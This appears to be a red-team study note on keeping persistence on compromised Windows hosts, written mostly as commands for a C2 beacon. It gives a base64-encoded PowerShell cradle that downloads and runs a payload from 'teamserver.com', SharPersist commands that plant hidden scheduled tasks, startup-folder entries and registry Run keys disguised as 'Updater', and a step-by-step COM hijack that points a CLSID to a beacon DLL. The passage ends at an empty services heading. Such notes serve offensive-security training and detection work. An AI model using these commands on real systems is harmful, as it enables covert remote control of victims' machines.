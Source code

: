 # Host Persistence Notes

**Task Scheduler**

Creating a scheduled task that will execute a PowerShell payload once every hour

1. Create an IEX cradle that's base64 encoded, /a is our hosted beacon
   ```
   Windows:
   $str = 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
   Linux:
   set str 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   echo -en $str | iconv -t UTF-16LE | base64 -w 0
   ```
2. Execute it on the beacon for persistence
   ```
   execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -n "Updater" -m add -o hourly
   ```
    -t is the desired persistence technique.
    -c is the command to execute.
    -a are any arguments for that command.
    -n is the name of the task.
    -m is to add the task (you can also remove, check and list).
    -o is the task frequency.

**StartUp Folder**

Things that start automatically when a user first logs in
```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -f "UserEnvSetup" -m add
```
-f is the filename to save as

**Registry Autorun**

AutoRun values in HKCU and HKLM allow applications to start on boot. 

steps in beacon
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
-k is the registry key to modify.
-v is the name of the registry key to create.

**Hunting for COM Hijacks**

Easier to hunt for hijacks on our own machine first. Launch procmon64.exe from [sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

We want to filter for
1. RegOpenKey operations
2. where the Result is NAME NOT FOUND
3. and Path ends with InprocServer32

Be important to find a CLSID that isn't loaded often
Example CLSID that we found: HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32

Checking that it exists in HKLM but not in HKCU
```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```
Now create a registry entry that points HKCU to a Beacon DLL
```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
Can find hijackable COM in Task Scheduler with this powershell script
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Review this list for possible exploitation parts by rechecking the HKCU and HKLM like above, and how often they are ran, lik at every user login or something of that nature

## Elevated Host persistence
**Windows Services**

